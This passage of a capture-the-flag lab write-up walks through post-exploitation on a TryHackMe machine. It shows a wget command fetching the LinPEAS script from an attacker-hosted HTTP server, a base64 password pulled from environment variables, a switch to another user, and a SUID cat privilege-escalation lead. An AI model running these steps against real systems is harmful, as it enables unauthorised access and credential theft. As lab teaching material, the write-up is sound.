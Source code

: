 We found what we already knew. This is the credentials that got us acces the admin panel.

It is time to automate our enumeration, and to do so we are going to upload Linpeas to the target system.

![LinPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) is a script that search for possible paths to escalate privileges on Linux/Unix*/MacOS hosts.

To do so we need to setup a http server and upload the file with wget.

```
Your system:

python3 -m http.server 9000  

From target system:

wget http://yourip:port/linpeas.sh

```

![image](https://github.com/Slowdeb/Tryhackme/assets/76821053/ff4b3654-5656-4356-9472-af18f0532328)

Whenever you upload files, it is a good practice to upload it to /tmp.

![image](https://github.com/Slowdeb/Tryhackme/assets/76821053/abaf0e33-9ecf-4d05-838c-58e12090f8d7)

Give the binary run permissions and execute it.

![image](https://github.com/Slowdeb/Tryhackme/assets/76821053/45c76426-6692-4604-912d-18a869a5754a)

Interesting PWD token found in env.

![image](https://github.com/Slowdeb/Tryhackme/assets/76821053/8a216b17-17c6-4df3-89c0-d90fd7e0086d)

![env](https://www.geeksforgeeks.org/env-command-in-linux-with-examples/) is used to either print environment variables. It is also used to run a utility or command in a custom environment.

This token is base64 encoded. So let's decode it.

![image](https://github.com/Slowdeb/Tryhackme/assets/76821053/7904cfb6-05a4-4e7b-bbd2-7ec4eb83941f)

Before we move on let's check some interesting information that linpeas gave us.

![image](https://github.com/Slowdeb/Tryhackme/assets/76821053/b418651f-309a-470b-816a-4534d91e6f12)

Important to notice that this is a possible privesc with SUID cat.

Ok, we decode the encoded hash and now we have a password. Let's try it on mario since there is only two users in this machine, besides root.

![image](https://github.com/Slowdeb/Tryhackme/assets/76821053/682cf3d2-8ffa-4d9d-a5f3-833c8b8fbb45)

We are now mario!!!

Looking at the directory of mario there's the user.txt flag, but we cannot read it because it belongs to root.

